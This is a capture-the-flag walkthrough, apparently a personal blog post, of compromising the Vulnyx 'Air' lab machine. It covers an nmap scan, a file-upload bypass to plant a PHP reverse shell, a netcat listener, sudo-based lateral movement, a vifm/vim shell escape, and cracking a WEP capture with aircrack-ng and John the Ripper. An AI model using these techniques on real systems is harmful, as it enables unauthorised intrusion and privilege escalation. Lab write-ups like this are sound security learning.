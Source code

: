 # **Vulnyx**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/1d217752-2e3f-41a3-998d-1db0aaeb2c3c)

***

Running our nmap scan we have 3 opened ports


```
# Nmap 7.94SVN scan initiated Sat May 25 00:09:32 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.43.6
Nmap scan report for air (192.168.43.6)
Host is up (0.00033s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:95:f2:88:f3:0f:ca:38:ec:da:3c:c0:cd:19:20:41 (ECDSA)
|_  256 53:21:e1:34:a6:f0:70:2b:87:e7:cf:3d:6b:85:9d:64 (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Welcome to nginx!
| http-methods: 
|_  Supported Methods: GET HEAD
8080/tcp open  http    nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://air.nyx:8080/
|_http-server-header: nginx/1.22.1
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 25 00:09:41 2024 -- 1 IP address (1 host up) scanned in 9.32 seconds
```



Navigating to port 80/HTTP we have this nginx default web page 


![](https://i.imgur.com/j3igbX7.png)



We can go ahead and perform a directory bruteforce using the `dirsearch` tool 



![](https://i.imgur.com/0zaSreg.png)



We have a suspicious `/files` directory 



![](https://i.imgur.com/KCgT3PC.png)



Navigating to port 8080 we are refereed to air.nyx


![](https://i.imgur.com/vEgylpH.png)


Go ahead and add this domain to our `/etc/hosts` file



![](https://i.imgur.com/LTBzGSQ.png)


Navigating to the web page we have this 



![](https://i.imgur.com/gfCoobR.png)


Clicking on the upload bar i was able to upload image files 



![](https://i.imgur.com/B3qluU8.png)



....and yeah the upload directory was guessable (CTF experience :D)


![](https://i.imgur.com/FCseSpd.png)




So i created a php reverse shell with the file name `shell.php#.png`


![](https://i.imgur.com/VLU8XWs.png)


Still turns out we where caught, sooo the best bet is to fire up burp suite



![](https://i.imgur.com/SInpspq.png)



We where able to bypass this by uploading a valid image and then stripping out few data from this file replacing it with our php reverse shell payload



![](https://i.imgur.com/OIE5lAM.png)



Then we can navigate to http://air.nyx:8080/uploads/wtf.php and then start up our listener in which we should get a reverse shell


```
nc -lvnp 4444
```



![](https://i.imgur.com/c3Gmp12.png)


Then we can stabilize our shell


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo;fg
export TERM=xterm-256color
```



Running `sudo -l` we have writable permissions to a file called `air-repeater` as user **sam**



![](https://i.imgur.com/AaDXd53.png)



We can move laterally to user **sam** by copying the `/bin/bash` shell here



```
cp /bin/bash air-repeater
sudo -u sam /opt/air-repeater 
```




![](https://i.imgur.com/69SHU6E.png)




Running `sudo -l` again we can run the binary `/usr/bin/vifm` as user **xiao**



![](https://i.imgur.com/q2jDvx9.png)



Running `sudo -u xiao /usr/bin/vifm` we are dropped in some kind of interface where we have the content of user **xiao** directory



![](https://i.imgur.com/KYB9PmG.png)



Pressing the enter key on the `user.txt` file we are dropped into vim, we can get a shell as user **xiao** by doing the below


![](https://i.imgur.com/aHPixsX.png)


......and we got a shell xD


![](https://i.imgur.com/uZYfgbi.png)



Running linpeas i found a sus file under `/var/backups`


![](https://i.imgur.com/vGllvJj.png)



Then i unzipped this file to the `/tmp` directory


```
unzip Air-Master.zip -d /tmp
```



![](https://i.imgur.com/J1sSAXC.png)



Using [this](https://www.reviversoft.com/en/file-extensions/ivs) article i was made to realize that `.ivs` files are Initialization Vector Files used by `Aircrack-ng` as well as other applications for WEP wireless network key cracking. So let transfer the `.ivs` file to our machine.



![](https://i.imgur.com/4Zoa4do.png)



Using [this](https://github.com/openwall/john/issues/371#issuecomment-23950687) article i was made to understand that this is complex but hell yeah, there is always a way. First of all create `.hccap` file from the original `.ivs` file


```bash
aircrack-ng -J new Air-Master-01.ivs
```


![](https://i.imgur.com/EVcys8O.png)



Then use `hccap2john` to convert the `.hccap` file to a crack able file by `JtR`


```
hccap2john new.hccap > hash.txt
```



Now crack the hash with `JtR`


```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




![](https://i.imgur.com/ueWhGRz.png)



Password => `cheerleading`



Let try the password for the user root


![](https://i.imgur.com/y09rUoN.png)



Which works EzPz, Have a nice day

![](https://i.pinimg.com/originals/44/4b/8f/444b8f406347a470a7de5478206dd158.gif)

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

